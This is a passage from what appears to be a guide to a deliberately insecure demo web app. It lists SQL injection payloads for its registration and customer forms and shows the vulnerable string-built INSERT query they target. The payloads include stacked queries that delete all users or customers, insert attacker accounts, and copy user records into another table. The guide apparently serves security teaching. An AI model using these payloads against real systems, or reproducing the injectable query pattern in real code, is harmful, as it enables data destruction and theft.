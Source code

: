 **Explanation:** This attempts to inject a fake user record into the result set.

### 2. Registration Page SQL Injection

**Target**: `/insecure/register`

#### Multiple Statement Execution

### Method 1
**Username:** `test' ; DELETE FROM users ; -- `

**Explanation:** This delete all users from users table

### Method 2
**Username:** `test'; INSERT INTO users (username, email, password_hash, salt) VALUES ('hacker', 'hacker@evil.com', 'hash', 'salt'); -- `  

**Explanation:** This attempts to register one user with weak password

### Method 3
**Username:** `test' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 -- `  
test', 'tchjha12@gmail.com', AND (SELECT COUNT(*) FROM information_schema.tables) > 0 -- 

**Explanation:** This attempts to query database metadata to discover table structures.

### 3. Customer Management SQL Injection

**Target**: `/insecure/dashboard` (Customer Management)

#### Working SQL Injection Examples

Since the customer insertion uses this vulnerable pattern:
```javascript
const query = `INSERT INTO customers (name, email, phone) VALUES ('${name}', '${email}', '${phone}')`
```

**Method 1 - Close and Add New Statement:**

**Name:** `test', 'test@gmail.com', '0500000000'); INSERT INTO customers (name, email, phone) VALUES ('hacker', 'hacker@evil.com', '123-456-7890'); -- `  

**Method 2 - Data Deletion:**

**Name:** `test', 'test@example.com', '123456'); DELETE FROM customers; -- `

**Method 3 - Data Extraction:**

**Name:** `test', 'test@gmail.com', '0500000000'); INSERT INTO customers (name, email, phone) SELECT username, email, 'extracted' FROM users LIMIT 1; -- `  

## XSS (Cross-Site Scripting) Demonstrations

### Customer Name XSS Attack
